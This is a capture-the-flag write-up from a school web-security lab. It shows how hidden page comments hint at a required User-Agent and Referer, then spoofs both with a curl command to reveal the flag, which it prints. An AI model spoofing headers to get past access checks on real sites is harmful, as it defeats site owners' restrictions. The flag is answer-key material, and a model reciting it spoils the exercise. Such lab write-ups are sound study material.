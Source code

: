 # Header spoofing
- a method that involves modifying HTTP request headers to mimic different browsers or refer from a specific webpage
- attackers can disguise their requests to appear as though they come from legitimate sources, potentially bypassing restrictions or triggering specific server responses
- https://medium.com/winkhosting/http-traffic-redirection-based-on-user-agent-header-8c18dc43b184

<b>keywords</b>: spoof (curl)<br>
<b>attacked site</b>: http://borntosec.42/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f

## Exploit
In the footer of the main page, we find a link to a different page:
```
http://borntosec.42/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```
Upon inspecting the page source code, we see several comments:
``` html
<!--
Voila un peu de lecture :

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
-->

<!-- 
Fun right ?
source: loem.
Good bye  !!!!
-->

<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Where does it come from?
Contrary to popular belief, Lorem Ipsum is not simply random text. It has roots in a piece of classical Latin literature from 45 BC, making it over 2000 years old. Richard McClintock, a Latin professor at Hampden-Sydney College in Virginia, looked up one of the more obscure Latin words, consectetur, from a Lorem Ipsum passage, and going through the cites of the word in classical literature, discovered the undoubtable source. Lorem Ipsum comes from sections 1.10.32 and 1.10.33 of "de Finibus Bonorum et Malorum" (The Extremes of Good and Evil) by Cicero, written in 45 BC. This book is a treatise on the theory of ethics, very popular during the Renaissance. The first line of Lorem Ipsum, "Lorem ipsum dolor sit amet..", comes from a line in section 1.10.32.

The standard chunk of Lorem Ipsum used since the 1500s is reproduced below for those interested. Sections 1.10.32 and 1.10.33 from "de Finibus Bonorum et Malorum" by Cicero are also reproduced in their exact original form, accompanied by English versions from the 1914 translation by H. Rackham.
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```
The comments indicate that we need to:
- use a specific browser, which apparently does not exist (ft_bornToSec)
- arrive from a different site (https://www.nsa.gov/)

We can achieve this by using <code>cURL</code> with the <code>--user-agent</code> (browser) and <code>--referer</code> (base site) options. The exploit involves accessing the page with the required flags:
``` shell
└─$ curl http://borntosec.42/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f --user-agent "ft_bornToSec" --referer "https://www.nsa.gov/" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0  1527k      0 -<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
-:--:-- --:--:-- --:--:-- 1966k
```
The flag is successfully revealed:
```
The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```
## Flag
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
